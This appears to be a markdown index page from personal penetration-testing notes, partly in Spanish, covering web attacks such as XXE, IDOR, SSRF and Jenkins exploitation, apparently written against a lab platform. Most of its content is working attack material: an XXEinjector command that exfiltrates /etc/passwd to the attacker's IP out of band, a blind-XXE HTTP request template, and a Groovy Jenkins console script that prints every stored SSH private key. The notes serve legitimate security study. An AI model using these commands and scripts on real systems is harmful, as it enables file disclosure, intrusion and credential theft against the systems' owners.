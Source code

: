 # Other Web Attacks (HTTP verb Tampering, IDOR & XXE)

- [HTTP verb tampering](./http-verb-tampering.md)
- [IDOR (Insecure Direct Object Reference)](./idor.md)
- [XXE (XML External Entity)](./xxe.md)
- [Attacking Jenkins](./attacking-jenkins.md)
- [SSRF](./ssrf.md)
- [ImageMagick RCE](./imagemagick-rce.md)
- Podemos utilizar [XXEinjector](https://github.com/enjoiz/XXEinjector) para automatizar el proceso de inyección de XML externa.
- `ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter` Nos tenemos que guardar la petición HTTP de burp

```
POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.197.101

Content-Length: 140

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.197.101

Referer: http://10.129.197.101/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```


## Jenkins script que busca clave SSH

```groovy
import com.cloudbees.plugins.credentials.CredentialsProvider
import com.cloudbees.plugins.credentials.common.StandardUsernameCredentials
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import hudson.model.*

// Buscar todas las credenciales en el sistema
def creds = CredentialsProvider.lookupCredentials(
    BasicSSHUserPrivateKey.class, 
    Jenkins.instance, 
    null, 
    null
)

// Iterar sobre las credenciales y mostrar las claves privadas
creds.each { cred ->
    println "ID: ${cred.id}"
    println "Description: ${cred.description}"
    println "Private Key: ${cred.privateKey}"
    println "----------------------------------------"
}
```